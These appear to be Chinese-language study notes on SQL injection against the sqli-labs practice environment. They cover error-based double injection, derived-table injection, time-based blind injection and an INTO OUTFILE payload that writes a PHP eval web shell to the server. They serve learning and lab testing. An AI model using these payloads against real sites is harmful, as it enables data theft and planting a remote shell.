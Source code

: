 
## 注入技巧

### 注释
不同的数据库注释的方法都不一样
- `#`
- `--[空格]或者是--+`

### 双注入

[双注入详解](https://blog.csdn.net/Leep0rt/article/details/78556440)

双注入通过报错的方式得到第一次select的信息。

> 原理是当`count()`后面跟上`group by` 则会以报错的方式显示第一次查询的信息。
```sql
union select count(*),3, concat((select(version())), floor(rand()*2)) as a from users group by a
```

注意一点: 需要把 `concat()`放到最后一个select才行。

还有一种派生表，模式是` select 1 from (table name)`

```sql
SELECT * FROM users WHERE id='1' union select 1,2,3 from ( select count(*), 2, concat((select version()), floor(rand()*2)) as a from users group by a)x -- ' LIMIT 0,1
```

### `outfile()`
高版本的Mysql会有个`secure_file_priv`的选项不让导入导出文件

下面给一个例子
```sql
http://localhost/sqli-labs/Less-7/?id=1')) union select 1,'2','<?php @eval($_POST["giantbranch"]);?>' into outfile 'E:\\wamp\\www\\sqli-labs\\muma.php' %23
```

### 盲注
> 重点是通过Boolean判断长度和名称。

#### 单引号盲注
[](!GET-单引号盲注脚本)

#### 时间逻辑盲注
当成功和失败的输出是一样的时候，使用时间逻辑方法
>重点在于当查询**成功**的时候，延迟5秒 。

```sql
 select * from users where id = 1 and if(ord(substr((select database()), 1,1))>97, sleep(5), 0);
```


## 基于错误的注入

- [这里](https://uknowsec.cn/posts/notes/MySQL%20Error%20Based%20SQL%20Injection%20%EF%BC%88%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%EF%BC%89%E6%80%BB%E7%BB%93.html)是基于错误注入的总结
